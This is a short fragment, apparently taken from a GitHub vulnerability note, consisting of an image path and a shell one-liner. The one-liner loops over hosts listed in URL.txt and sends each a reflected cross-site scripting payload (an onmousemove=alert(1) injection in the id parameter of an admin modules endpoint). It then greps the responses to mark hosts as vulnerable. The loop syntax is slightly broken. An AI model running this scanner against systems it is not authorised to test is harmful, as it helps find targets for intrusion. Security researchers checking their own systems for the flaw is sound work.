  cat URL.txt | while read h do; do curl -sk "$h/module/?
module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&
from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done

